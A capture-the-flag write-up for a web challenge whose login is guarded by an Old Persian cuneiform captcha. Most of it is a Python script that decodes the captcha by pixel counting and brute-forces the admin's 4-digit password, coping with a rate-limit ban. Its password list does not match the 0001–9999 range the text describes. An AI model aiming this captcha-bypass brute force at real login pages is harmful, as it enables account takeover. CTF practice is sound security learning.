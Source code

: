 #Old persian cuneiform captcha

**Category:** Web
**Points:** 250

**Description:**

Old Persian cuneiform is a semi-alphabetic cuneiform script that was the primary script for the old persian language. You could get more information on following links, 

1- http://www.ancientscripts.com/oldpersian.html

2- https://en.wikipedia.org/wiki/Old_Persian_cuneiform. 

A web-based collections management for a museum has some extremely valuable information if one has admin user access. 

Site: 'http://ctf.sharif.edu:32455/chal/oldpersian/e800effeaf558f54/'

We found that the "admin" user have a 4-digit password. But they use a captcha made of 10 old persian characters. One has to use the correspondence between symbols and strings to pass theye captcha verification (use "trans.png"). 
Log in as "admin" to find the flag.

the flag is in the fomat: [Your flag is: flagflagflag...] (without braces)


##Solution:

We are given a web page with custom Persian-Captcha. We should BruteForce it, but first we should find a way to decode captcha.
So our tasks are:

1 - Write a script to decode captcha

2 - Send a GET request to /captcha url, save the captcha.image. Decode it and send a POST request to /login/submit url with captcha value in it's data

3 - Iterate between 0001-9999 integers for password value and do 1 & 2 steps

![Image of main_page.jpg]

I used a custom method of mine for decoding captcha's. But I know there should be lot's of other methods using machine-learning & ...
But it's CTF & it's all about time. So i used this method:

I splitted each captcha image to 6 images (Cause it contains 6 persian-ancient characters). Convert it to gray-image, Calculated black-bits in each image and
tried to define an algorithm to detect each character.
Some of Characters have specific number of black digits like 'E'. for example I assumed all the iamges that have less that 160 black-digits, are corresponded to 'E'.
And for characters that have close number of black-digits, I calculate black-bits in each half: top,bottom,right,left and tried to define statements that
describe each character.(It's not the best method ---> believe me: i know. but that shit worked for me.)

Here is the code i used:

```python
import os,sys
from PIL import Image
import mechanize
import cookielib
from bs4 import BeautifulSoup
import urllib

base_url = 'http://ctf.sharif.edu:32455/chal/oldpersian/6a18d45a981e0219/'
captcha_link = base_url + 'captcha/'
login_link = base_url + 'login/submit/'

password_from = int(sys.argv[1])
password_to = int(sys.argv[2])

captcha_image_name = 'test.jpg'
alphabet_chars = 'ABCDEFGHIJKLM'
captcha_char_numbers = 6

def get_captcha(br):
    result = br.open(captcha_link)
    img = open(captcha_image_name,'wb')
    img.write(result.read())
    img.close()

def calc_black_pixs(pix_list):

    this_y = len(pix_list)
    this_x = len(pix_list[0])
    result = 0
    for i in pix_list:
        for j in i:
            if j == 0:
                result += 1
    return result

def calc_each_quarter_black_pixels(pix_list):
    result = [[0,0],[0,0]]      # [1_1, 1_2], [2_1, 2_2]
    for y in pix_list:
        y_index = pix_list.index(y)
        for x in y:
            x_index = y.index(x)
            if x == 0:
                result_x = 0
                if x_index > 40:
                    result_x = 1
                result_y = 0
                if y_index > 40:
                    result_y = 1

                result[result_y][result_x] += 1
    return result

def proccess_captcha():
    jpg_image = Image.open(captcha_image_name)
    jpg_tmp = jpg_image.convert('L')
    gray_image = jpg_tmp.point(lambda x: 0 if x<128 else 255, '1')
    mx,my = gray_image.size
    pixels = gray_image.load()

    char_list = []
    for index in range(captcha_char_numbers):
        tmp_char_list = []
        for y in range(my):
            tmp = []
            for x in range(80*index,80*(index+1)):
                this_pix = pixels[x,y]
                tmp.append(this_pix)
            tmp_char_list.append(tmp)
        char_list.append(tmp_char_list)

    result = ''
    for index in range(captcha_char_numbers):
        bp = calc_black_pixs(char_list[index])
        bp_quarters = calc_each_quarter_black_pixels(char_list[index])
        bp_left_sum = (bp_quarters[0][0]+bp_quarters[1][0])
        bp_right_sum = (bp_quarters[0][1]+bp_quarters[1][1])
        bp_top_sum = sum(bp_quarters[0])
        bp_bottom_sum = sum(bp_quarters[1])

        if bp > 700:
            result += 'H'
        elif bp <= 160:
            result += 'E'
        elif bp >= 450 and bp <= 470:
            if bp_top_sum > bp_bottom_sum:
                if bp_bottom_sum < 200:
                    result += 'D'
                else:
                    if bp_left_sum > bp_right_sum:
                        result += 'K'
                    else:
                        result += 'B'
            else:
                if bp_left_sum > bp_right_sum:
                    result += 'K'
                else:
                    result += 'B'
        elif bp >= 540 and bp <= 560:
            if bp_top_sum > bp_bottom_sum:
                if bp_left_sum > bp_right_sum:
                    result += 'L'
                else:
                    result += 'M'
            else:
                result += 'L'
        elif bp > 500 and bp < 520:
            result += 'J'
        elif bp >= 640 and bp < 700:
            result += 'F'
        elif bp >= 520 and bp < 540:
            result += 'I'
        elif bp >= 625 and bp < 640:
            result += 'G'
        elif bp > 430 and bp < 450:
            result += 'K'
        elif bp > 600 and bp < 625:
            result += 'A'
        elif bp > 560 and bp < 600:
            result += 'C'
        else:
            result += '-'
    return result

def send_post(br, password, captcha):
    params = {'username':'admin', 'password':password, 'captcha':captcha}
    data = urllib.urlencode(params)
    response = br.open(login_link, data)
    result = response.read()
    if 'Invalid captcha' in result:
        return False
    if 'Login failed' in result:
        return 'failed'
    if 'You are in penalty time' in result:
        return 'penalty'
    return result

#passlist = range(password_from-1,password_to+1)
import itertools
chars = '0123456789'
passlist = []
res = itertools.permutations(chars,3)
for i in res:
    passlist.append('0'+''.join(i))

for password in passlist:
    state = False
    while not state:
        br = mechanize.Browser()
        br.set_handle_robots(False)
        br.set_handle_equiv(True)
        br.set_handle_referer(True)
        br.set_handle_redirect(True)
        cj = cookielib.LWPCookieJar()
        br.set_cookiejar(cj)
        get_captcha(br)
        this_captcha = proccess_captcha()
        state = send_post(br, password, this_captcha)
        if state == False:
            continue
        else:
            if state == 'failed':
                print '[-] Failed to login with %s'%password
                break
            elif state == 'penalty':
                print '[-] Failed cause of penatly time'
                print password
                raw_input('wait here...')
                break
            else:
                print state
                print '\n[+] Password is %s'%password
                raw_input('got it!\n\n')
```

But the real problem is that after almost 1000 post request, you will be banned for like 2000 seconds and you should wait that time for the next part of brute-force attack.
(Really!!!!. you kidding me.)
Because of this timing i wasn't able to get the flag in right time, And got it after the competition was done. But cheers to all who joined this challenge.

I really enjoyed it and didn't look on other web challenges, CAUSE THIS WAS A FUN CHALLENGE.
